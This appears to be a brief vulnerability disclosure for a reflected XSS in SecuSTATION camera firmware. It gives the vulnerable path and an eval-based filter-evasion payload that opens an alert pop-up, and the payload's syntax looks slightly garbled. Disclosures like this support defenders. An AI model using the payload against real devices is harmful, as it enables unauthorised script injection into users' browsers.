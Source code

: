 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://raw.githubusercontent.com/Camera/tree/main/assets/20241217100348501.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100507713.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100543071.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































